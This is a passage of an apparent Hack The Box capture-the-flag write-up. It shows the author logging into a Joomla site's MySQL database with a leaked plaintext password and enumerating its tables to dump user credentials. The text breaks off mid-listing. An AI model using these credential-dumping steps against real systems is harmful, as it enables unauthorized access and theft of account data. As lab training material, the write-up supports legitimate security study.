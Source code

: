 ## Getting User.txt

After that, I dump the user credentials from mysql db

```bash
<htb/administrator/templates/atum$ mysql -u lewis -p                 
Enter password: P4ntherg0t1n5r3c0n##

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 135
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases
show databases
    -> ;
;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
| sd4fg_assets                  |
| sd4fg_associations            |
| sd4fg_banner_clients          |
| sd4fg_banner_tracks           |
| sd4fg_banners                 |
| sd4fg_categories              |
| sd4fg_contact_details         |
| sd4fg_content                 |
| sd4fg_content_frontpage       |
| sd4fg_content_rating          |
| sd4fg_content_types           |
| sd4fg_contentitem_tag_map     |
| sd4fg_extensions              |
| sd4fg_fields                  |
| sd4fg_fields_categories       |
| sd4fg_fields_groups           |
```